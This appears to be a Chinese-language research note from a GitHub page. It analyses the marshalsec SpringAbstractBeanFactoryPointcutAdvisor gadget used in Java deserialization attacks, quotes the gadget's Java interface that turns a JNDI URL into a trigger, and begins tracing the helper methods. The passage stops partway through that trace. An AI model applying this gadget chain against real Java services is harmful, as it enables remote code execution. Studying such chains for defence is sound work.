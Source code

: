 <div align=center><img src="./images/6.png"></div>

## SpringAbstractBeanFactoryPointcutAdvisor
### 构造分析
 - 先来看看`marshalsec`中给出的`SpringAbstractBeanFactoryPointcutAdvisor.java`, 这里和`SpringPartiallyComparableAdvisorHolderGadget`一样, 还是先将传入的`jndiUrl`传入`SpringUtil#makeJNDITrigger`方法, 接着会调用`SpringUtil#makeBeanFactoryTriggerBFPA`方法.

```java
public interface SpringAbstractBeanFactoryPointcutAdvisor extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makeBeanFactoryPointcutAdvisor ( UtilFactory uf, String[] args ) throws Exception {
        String jndiUrl = args[ 0 ];
        return SpringUtil.makeBeanFactoryTriggerBFPA(uf, jndiUrl, SpringUtil.makeJNDITrigger(jndiUrl));
    }
}
```

 - 跟进`SpringUtil#makeBeanFactoryTriggerBFPA`方法, 先创建一个`DefaultBeanFactoryPointcutAdvisor`实例, 接着调用该实例的`setBeanFactory`和`setAdviceBeanName`方法, 最后调用`UtilFactory#makeEqualsTrigger`方法.
